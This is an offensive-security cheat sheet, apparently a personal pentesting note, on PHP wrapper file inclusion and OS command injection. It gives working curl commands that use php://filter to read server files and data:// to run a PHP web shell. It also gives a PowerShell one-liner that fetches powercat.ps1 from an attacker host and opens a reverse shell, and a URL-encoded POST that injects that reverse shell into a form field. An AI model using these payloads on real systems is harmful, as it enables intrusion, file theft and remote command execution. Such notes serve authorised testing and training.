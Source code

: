 # PHP Wrappers

-   **`php://filter`**

```bash
curl "http://<TARGET>/index.php?page=php://filter/convert.base64-encode/resource=<FILE>"

# Decode base64-encoded output
echo "<BASE64_ENCODED_OUTPUT>" | base64 -d
```

-   **`php://data`**

```bash
curl "http://<TARGET>/index.php?page=data://text/plain,<PHP_PAYLOAD>"

# Encode PHP payload in base64:
echo -n '<?php echo system($_GET["cmd"]); ?>' | base64
```

# OS Command Injection

-   **Detect Windows Commands Execution:**

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

-   **Download and Execute PowerCat Reverse Shell:**

```bash
IEX (New-Object System.Net.Webclient).DownloadString("http://<ATTACKER_IP>/powercat.ps1");powercat -c <ATTACKER_IP> -p <PORT> -e powershell
```

-   **Executing Command Injection:**

```bash
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F<ATTACKER_IP>%2Fpowercat.ps1%22)%3Bpowercat%20-c%20<ATTACKER_IP>%20-p%20<PORT>%20-e%20powershell' http://<TARGET>:<PORT>/archive
```

# Use Cases

You could test for this at any point where there's a file path that could possibly be influenced

# Related Notes

[MOC - Initial Access](../../0%20-%20MOCs/MOC%20-%20Initial%20Access.md)

# References

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)